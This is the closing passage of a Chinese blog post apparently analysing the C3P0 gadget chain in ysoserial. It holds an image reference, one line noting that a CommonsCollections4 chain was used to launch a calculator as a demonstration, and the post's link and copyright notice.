}
这里是使用了cc4版本jar包的cc4链出发计算器


- Post link: https://roboterh.github.io/2022/04/15/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BC3P0/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.